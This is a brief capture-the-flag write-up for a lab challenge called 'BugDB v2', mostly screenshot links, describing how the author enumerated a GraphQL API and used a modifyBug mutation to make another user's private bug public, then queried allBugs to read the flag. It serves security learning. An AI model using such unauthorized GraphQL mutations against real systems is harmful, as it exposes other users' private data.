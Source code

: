 BugDB v2

# BugDB v2
## Flags = 1





![1.png](../_resources/5deac93384344377900e346dc7da6c18.png)




## Flag 0


![2.png](../_resources/2824fd69c4a842a7b87691c2e01e22b4.png)







using the docs as a guide I made several queries.


![3a.png](../_resources/9dfef84a00fc4c0797d30b6ef24ab8ba.png)


![3.png](../_resources/73743b166fe6499c8abe6510facd61ee.png)



from this I noticed two users , *admin* and *victim*,
After further digging around I didn't find any other clues.
Going back to the root types I started exploring *mutations* , with some googling I came up with a mutation query.
```
mutation{
  modifyBug(id:2, private:false) {
    ok
    bug {
      id
      text
      private
      reporter{
        id
      }
      reporterId
    }
  }
}
```



![4.png](../_resources/66520393949f4121b3022415931ade4f.png)


I then used the query in allBugs
```
query{ 
allBugs {
      id
      text
      private
      reporter{
        id
        username
      }
      reporterId
    }
  }
  
```


![flag.png](../_resources/b25211d2ec124b74ab1a45862c1fd0bd.png)



This resulted in getting the flag








